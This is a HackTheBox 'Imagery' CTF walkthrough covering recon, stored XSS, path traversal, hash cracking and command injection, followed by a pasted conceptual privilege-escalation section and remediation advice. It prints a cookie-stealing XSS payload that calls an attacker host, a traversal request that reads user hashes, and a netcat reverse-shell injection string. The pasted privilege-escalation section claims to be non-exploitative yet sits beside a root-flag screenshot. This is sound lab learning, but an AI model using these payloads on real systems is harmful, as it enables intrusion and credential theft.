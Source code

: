 # Imagery

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

#### 🏁 Summary of Attack Chain


| Step | User / Access       | Technique Used                             | Result                                                                                                                                     |
| :--- | :------------------ | :----------------------------------------- | :----------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | (Local)             | Nmap service/version scan                  | Discovered services: SSH (22) and HTTP (Werkzeug on 8000) — identified *Image Gallery* web app.                                            |
| 2    | (Web)               | Stored XSS in bug report                   | Injected payload in bug report to exfiltrate admin session cookie when admin viewed the report.                                            |
| 3    | (Web / Admin)       | Path traversal (LFI) on admin log endpoint | Used stolen admin cookie to read `db.json` via the admin log endpoint and retrieve user password hashes.                                   |
| 4    | (Local)             | Password cracking (offline)                | Cracked extracted hashes with a wordlist to recover a valid web user credential (testuser).                                                |
| 5    | (Web)               | Command injection in image transform       | As a normal user, tampered with image transform input to execute a command and obtain a web user shell.                                    |
| 6    | (Web Shell)         | Filesystem discovery & download            | Enumerated `/var/backup`, found encrypted backup archive, and downloaded it for offline brute-force/decryption.                            |
| 7    | (Local)             | Archive decryption & offline hash cracking | Decrypted backup, extracted historical `db.json`, and cracked the `mark` hash.                                                             |
| 8    | (Local / Shell)     | Credential reuse / local user switch       | Used cracked `mark` credentials (or `su mark`) to become user `mark` and capture user flag.                                                |
| 9    | (Post-exploitation) | Sudo configuration review                  | `mark` has `NOPASSWD` for `/usr/local/bin/charcol` (noted as a potential escalation vector); file inspection required for risk assessment. |
| 10   | (Outcome)           | —                                          | User flag captured; potential privilege escalation path identified for follow-up investigation/mitigation.                                 |


### Recon – Nmap

```
nmap -sVC 10.10.XX.XX

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7p1 Ubuntu 7ubuntu4.3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.7)
|_http-title: Image Gallery
|_http-server-header: Werkzeug/3.1.3 Python/3.12.7
```

* **22/tcp** – SSH (OpenSSH 9.7p1)
* **8000/tcp** – HTTP (Werkzeug, Python 3.12.7)
  The web runs an *Image Gallery* application.



# Initial foothold — Stored XSS → admin cookie

The bug report page contains a **stored XSS** that can be used to exfiltrate the admin session cookie.

Start a simple HTTP server on your attacker host to capture callbacks:

```bash
python3 -m http.server 4444
```

Submit the following payload in a bug report (replace `<YOUR-IP>` with your host IP reachable by the target):

```html
<img src=x onerror=fetch('http://<YOUR-IP>:4444/?pwned='+document.cookie)>
```

When the admin opens the report, the admin session cookie will be sent to your listener.

![File ](Pictures/htb_imagery_admin_cookie.png)


![File ](Pictures/htb_imagery_admin_panel.png)

# LFI on the admin endpoint

With the stolen admin cookie you can call the admin log endpoint which reads files based on a `log_identifier` parameter (vulnerable to path traversal).

Set the cookie variable:

```bash
COOKIE="session=ADMIN_COOKIE"
```

Example request to read `db.json` from the web user's home:

```bash
curl -s -H "Cookie: $COOKIE" \
 "http://10.10.XX.XX:8000/admin/get_system_log?log_identifier=../../../../home/web/web/db.json" | jq .
```

![File ](Pictures/htb_imagery_dbjson.png)

This reveals users and password hashes stored in `db.json`.



# Hash cracking

Save the extracted hash locally (example):

```bash
echo '2c65c8d7bf<HASH>' >> hashes.txt
```


Crack with John the Ripper:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

![File ](Pictures/htb_imagery_test_pass_crack.png)

After cracking, use the recovered credentials on the web app to log in as that user.



# Webshell — Command Injection in image transform

As a normal user (e.g. `testuser`) upload an image. Intercept the image transform/crop request (Burp or similar) and modify the `height` parameter to inject a command.

![File ](Pictures/htb_imagery_test_login.png)

Example (modify `YOUR-IP` and port):

```json
"height":"100; busybox nc YOUR-IP 4444 -e /bin/sh; echo"
```
![File ](Pictures/htb_imagery_burp_payload.png)

Start a listener on your attacker host:

```bash
nc -lvnp 4444
```

![File ](Pictures/htb_imagery_www_shell.png)

Trigger the transform and you will obtain a web user shell.



# Pivot to `mark` — backup bruteforce

From the web shell, enumerate backup files:

```bash
ls -la /var/backup
```

Find an encrypted backup, for example:

```
web_20250806_120723.zip.aes
```
![File ](Pictures/htb_imagery_www_aes.png)
![File ](Pictures/htb_imagery_www_aes_download.png)

Download the archive to your attacker host and brute-force/decrypt it (custom script or tools such as `pyAesCrypt`/loop). Once decrypted, extract the old `db.json` which contains historical user hashes (including `mark`'s hash).

![File ](Pictures/htb_imagery_www_aes_decrypted.png)

Crack the `mark` hash offline:

```bash
echo '<mark_hash>' >> hashes.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

![File ](Pictures/htb_imagery_www_mark_hash.png)

![File ](Pictures/htb_imagery_www_mark_pass.png)

# User access — `su mark`

From the web shell or after obtaining valid credentials, switch user:

```bash
su mark
```

![File ](Pictures/htb_imagery_User_flag.png)

Capture the user flag.

## Priviledge Escalation


---

title: "Walkthrough — Privilege Escalation (Imagery) — Conceptual"
href: "posts/htb_Imagery_priv_esc_walkthrough.md"
date: "2025-09-28"
category:

* "HackTheBox"
  tags:
* "Privilege Escalation"
* "sudo"
* "Post-exploitation"
* "Investigation Checklist"

---

# Privilege Escalation — Imagery (conceptual walkthrough)

> **Important:** This document is a **high-level, non-exploitative** walkthrough intended for learning, documentation, and defensive hardening. It intentionally *does not* provide step-by-step exploit instructions that would enable unauthorized privilege escalation. Only perform testing on boxes you own or are explicitly authorised to test.

---

## Summary of observed state

You supplied the following interactive session excerpts (preserved here for context):

```
$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

Attempts to inspect `/usr/local/bin/charcol` returned permission denied for reading and executing as the current user. You also showed contents of `/tmp` containing a `shell` file and the `root.txt` value present.

![File ](Pictures/htb_imagerysudol.png)

---

## Goal of this walkthrough

1. Explain what the `sudo -l` output means and why it matters.
2. Provide **safe investigative commands** you can run to gather facts.
3. Describe **what to look for** (conceptually) when analysing a `NOPASSWD` sudo entry.
4. List **defensive mitigations** and best practices.

---

## What `sudo -l` tells us (plain language)

* The user `mark` is allowed to run `/usr/local/bin/charcol` as root **without a password** (`NOPASSWD`).
* `env_reset` is enabled, which means `sudo` will clear many environment variables by default — this reduces some environment-based abuse, but it is not a complete protection.
* `secure_path` is set, meaning `sudo` will use a restricted `PATH` when executing commands. This mitigates a class of PATH-based abuse but does not remove other issues.

A `NOPASSWD` entry is a **privilege grant** — whether it is dangerous depends entirely on how the granted program behaves and on file/permission/configuration around it.

---

## Safe investigative commands (run these; they are informational only)

Run these read-only checks to learn about the program, its permissions, and surrounding filesystem state.

```bash
# file type / magic
file /usr/local/bin/charcol

# permissions and owner
ls -l /usr/local/bin/charcol

# extended attributes and SELinux context (if present)
lsattr /usr/local/bin/charcol 2>/dev/null || true
ls -lZ /usr/local/bin/charcol 2>/dev/null || true

# canonical path (see symlinks)
readlink -f /usr/local/bin/charcol

# full path component permissions (helpful to spot world-writable dirs)
namei -l /usr/local/bin/charcol

# basic file metadata
stat /usr/local/bin/charcol

# strings and dependencies (harmless to run locally for analysis)
# (strings will not modify the system)
strings /usr/local/bin/charcol | head -n 50
ldd /usr/local/bin/charcol 2>/dev/null || true
```

**What these reveal (how to interpret results):**

* `file` will tell you if `charcol` is a script (e.g., `/bin/sh` script, Python script) or a compiled binary.
* `ls -l`/`stat` show ownership and whether non-root users can write/replace the file.
* `readlink -f` and `namei -l` help find whether the file is a symlink and whether any path component is writable.
* `strings` and `ldd` indicate embedded command names, libraries, or whether the binary links to shared libraries.

> If you paste the *outputs* of the above commands, I can explain what each result means and which findings are noteworthy — without giving exploit instructions.

---

## Conceptual things to look for (do **not** exploit — just observe)

* **Is the target a script vs compiled binary?** Scripts run by root are often more sensitive because they may invoke other programs or interpret files that you can influence.
* **Writable file or directory components.** If the binary or any directory in its path is writable by non-root, that creates the possibility of replacement or path manipulation.
* **Relative execution / invokes external programs.** If the program invokes other utilities or shells using relative paths or environment-influenced variables, that affects the attack surface.
* **Config files or data files read by the program.** If a program reads configs from `/etc` or under `/var` and those files are writable by an unprivileged user, behaviour can be altered.
* **Use of environment variables.** Some programs respect variables like `LD_LIBRARY_PATH`, `TMPDIR`, or plugin paths — `sudo` sanitizes many variables but not all systems/configs are safe.
* **Scheduled tasks / services** that might run as root and call the same or related program.
* **Secrets/backups** on the filesystem with weak protection (e.g., older database dumps with credentials).

---

## Defensive mitigations & recommendations

If you are documenting findings to harden a system (or writing a post-mortem), recommend these fixes:

* Avoid giving `NOPASSWD` for arbitrary programs. Prefer least-privilege and require a password where possible.
* Replace `sudo` grants for scripts with tightly controlled wrappers or explicit commands with arguments enumerated.
* Ensure `/usr/local/bin` and its parent directories are owned by root and not writable by non-privileged users:

  * `chown root:root /usr/local/bin/charcol`
  * `chmod 755 /usr/local/bin/charcol`
* Use absolute paths inside scripts and avoid invoking shell with uncontrolled input.
* Apply `noexec`/mount options or AppArmor/SELinux profiles for high-risk utilities.
* Remove sensitive historical backups from publicly readable locations and apply strong encryption and key management for archived data.
* Apply `HttpOnly`, `Secure`, and `SameSite` cookie flags in web apps; enforce CSP.
* Add monitoring/alerting for unusual `sudo` executions and unexpected modifications of privileged files.

---

## Example non-exploit writeup structure (for a CTF post-mortem)

Use this template when writing a report that documents the *investigation* and *defensive* findings (instead of exploit steps).



## TL;DR
- mark had a `NOPASSWD` sudo entry for `/usr/local/bin/charcol`.
- The file type, ownership and surrounding path were inspected to determine risk.
- Findings: [describe factual, non-actionable findings]
- Recommendations: [list mitigations]

## Observations
- `sudo -l` output: (quote)
- `/tmp` contained: (quote)
- root flag (logged as evidence): (quote)



![File ](Pictures/htb_imagery_Root_flag.png)


# Notes & remediation

* **Input sanitization**: Properly sanitize and escape inputs submitted to bug reports; avoid rendering untrusted HTML.
* **Cookies**: Set `HttpOnly` and `Secure` flags on session cookies; consider same-site policies.
* **Content Security Policy (CSP)**: Implement a strict CSP to mitigate XSS and limit exfiltration channels.
* **File access**: Canonicalize and whitelist file read paths on admin endpoints; reject `..` traversal and user-controlled file identifiers.
* **Command construction**: Never build shell commands from untrusted input — use safe library APIs and parameterized calls for image processing.
* **Process isolation**: Isolate image processing into a sandboxed service with minimal privileges.
* **Backups**: Protect backups with strong encryption and secure key management; avoid storing historical credentials in plaintext within backups.
* **Logging & monitoring**: Monitor for anomalous requests (admin log reads, suspicious transform parameters, outbound HTTP to unknown hosts).

-->